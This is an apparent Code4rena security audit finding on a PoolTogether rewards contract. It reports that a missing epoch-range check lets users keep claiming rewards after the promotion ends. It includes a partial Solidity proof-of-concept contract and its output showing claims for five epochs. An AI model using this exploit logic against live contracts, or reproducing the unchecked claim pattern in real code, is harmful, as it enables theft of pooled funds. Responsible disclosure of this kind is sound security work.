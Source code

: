 

## [[H-03] Continue claiming reqrds after numberOfEpochs are over](https://github.com/code-423n4/2021-12-pooltogether-findings/issues/20)
_Submitted by gpersoon, also found by 0xabc, csanuragjain, harleythedog, kenzo, and leastwood_

#### Impact

When claiming rewards via `claimRewards()`, the function `\_calculateRewardAmount()` is called.
The function `\_calculateRewardAmount()` has a check to make sure the epoch is over

```solidity
  require(block.timestamp > _epochEndTimestamp, "TwabRewards/epoch-not-over"); 
```

However neither functions check if the `\_epochId` is within the range of the reward epochs.
Ergo it is possible to continue claiming rewards after the reward period is over.
This only works as long as there are enough tokens in the contract. But this is the case when not everyone has claimed, or other rewards use the same token.

The proof of concept contains a simplified version of the contract, and shows how this can be done.
When run in remix you get the following output, while there is only 1 epoch.
`console.log:
 Claiming for epoch 1 1
 Claiming for epoch 2 1
 Claiming for epoch 3 1
 Claiming for epoch 4 1
 Claiming for epoch 5 1`

#### Proof of Concept

```solidity
 // SPDX-License-Identifier: GPL-3.0
pragma solidity 0.8.6;
import "hardhat/console.sol";  

contract TwabRewards {

    struct Promotion {
        uint216 tokensPerEpoch;
        uint32 startTimestamp;
        uint32 epochDuration;
        uint8 numberOfEpochs;
    }
    mapping(uint256 => Promotion) internal _promotions;
    uint256 internal _latestPromotionId;
    mapping(uint256 => mapping(address => uint256)) internal _claimedEpochs;
    
    constructor() {
        uint id=createPromotion(1,uint32(block.timestamp)-10,1,1);
        claimRewards(id,1);
        claimRewards(id,2);
        claimRewards(id,3);
        claimRewards(id,4);
        claimRewards(id,5);
    }
     
    function createPromotion(uint216 _tokensPerEpoch,uint32 _startTimestamp,uint32 _epochDuration,uint8 _numberOfEpochs) public  returns (uint256) {
        uint256 _nextPromotionId = _latestPromotionId + 1;
        _latestPromotionId = _nextPromotionId;
        _promotions[_nextPromotionId] = Promotion(_tokensPerEpoch,_startTimestamp,_epochDuration,_numberOfEpochs);
        return _nextPromotionId;
    }
```